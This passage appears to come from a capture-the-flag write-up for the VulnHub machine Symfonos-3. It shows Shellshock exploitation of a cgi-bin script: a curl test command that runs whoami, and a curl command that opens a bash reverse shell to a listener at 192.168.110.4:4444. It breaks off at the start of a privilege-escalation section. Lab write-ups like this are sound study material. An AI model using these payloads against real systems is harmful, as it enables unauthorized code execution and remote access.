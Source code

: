 	![](images/Pasted%20image%2020220204042429.png)
	- A cgi-bin script is executed, could be vulnerable to Shellshock
5. Determine whether the webserver is susceptible to shellshock
	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-3]
	└─# curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://$ip/cgi-bin/underworld
	cerberus
	```
	- Exploited before @ TryHackMe: 0day
6. Execute reverse shell
	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-3]
	└─# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.110.4/4444 0>&1' http://$ip/cgi-bin/underworld
	```
	![](images/Pasted%20image%2020220204043454.png)



# Privilege Escalation
## Hades - Via Cronjob + TCPDump
1. Linpeas